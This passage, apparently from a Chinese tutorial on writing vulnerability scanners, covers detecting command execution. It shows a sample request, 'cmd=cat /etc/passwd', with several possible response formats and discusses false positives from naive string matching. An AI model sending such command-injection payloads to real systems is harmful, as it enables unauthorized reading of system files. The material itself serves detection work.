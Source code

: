 ```python
        # 在上传文件后，关闭ZIP文件，便于后续删除文件
        upzip.close()
        # 使用os库，并删除创建的压缩文件
        os.remove("./{}.zip".format(yuju))
```

####

### 命令执行

命令执行分为回显与不回显两种，对于回显的命令执行，可使用Windows与Unix通用的命令去检测，类似netstat，或者别的，也可分别发送请求，也就是发送多次请求去检测，例如：

```
GET /download.php?cmd=cat%20/etc/passwd HHTP/1.1
​
RESPONSE:
HTTP 200 OK
Content-Type:text/html
// Content-Type:text/josn
// Set-Cookie: PHPSESSID=123456789xxxxxx
​
// 情况一：
<textarea>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin...</textarea>
// 情况二：
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin...
<!DOCTYPE html>
<html>......
// 情况三：
{"status":200,"data":"root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin..."}
​
// 情况四：
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
```

如果忽略上述的情况，只在代码中这样检测`if "root:x:0:0" in req.text:`，也会遇到一种网站，在这种网站的注释内容中，无所不有，类似这样：
